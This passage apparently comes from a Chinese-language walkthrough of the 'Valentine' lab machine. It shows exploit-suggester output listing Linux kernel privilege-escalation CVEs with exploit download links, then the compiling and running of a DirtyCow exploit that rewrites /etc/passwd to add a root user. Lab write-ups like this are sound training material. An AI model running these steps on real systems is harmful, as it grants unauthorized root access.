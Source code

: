 [+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2013-2094] perf_swevent

   Details: http://timetobleed.com/a-closer-look-at-a-recent-privilege-escalation-bug-in-linux-cve-2013-2094/
   Exposure: highly probable
   Tags: RHEL=6,[ ubuntu=12.04{kernel:3.2.0-(23|29)-generic} ],fedora=16{kernel:3.1.0-7.fc16.x86_64},fedora=17{kernel:3.3.4-5.fc17.x86_64},debian=7{kernel:3.2.0-4-amd64}
   Download URL: https://www.exploit-db.com/download/26131
   Comments: No SMEP/SMAP bypass

[+] [CVE-2013-2094] perf_swevent 2

   Details: http://timetobleed.com/a-closer-look-at-a-recent-privilege-escalation-bug-in-linux-cve-2013-2094/
   Exposure: highly probable
   Tags: [ ubuntu=12.04{kernel:3.(2|5).0-(23|29)-generic} ]
   Download URL: https://cyseclabs.com/exploits/vnik_v1.c
   Comments: No SMEP/SMAP bypass

```

可能存在脏牛漏洞，选择第二个脏牛利用exp，传到靶机

编译，执行

```
hype@Valentine:/tmp$  gcc -pthread dirty.c -o dirty -lcrypt
hype@Valentine:/tmp$ ls
_cafenv-appconfig_  dirty  dirty.c  dirtyc0w  dirtyc0w.c  dirtyc0w.c.1  foo  linpeas.sh  linux-exploit-suggester.sh  o.txt  s.txt  tmux-1000  vmware-root
hype@Valentine:/tmp$ chmod +x dirty
hype@Valentine:/tmp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fi8RL.Us0cfSs:0:0:pwned:/root:/bin/bash

mmap: 7f4bbb4e4000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '123456'.
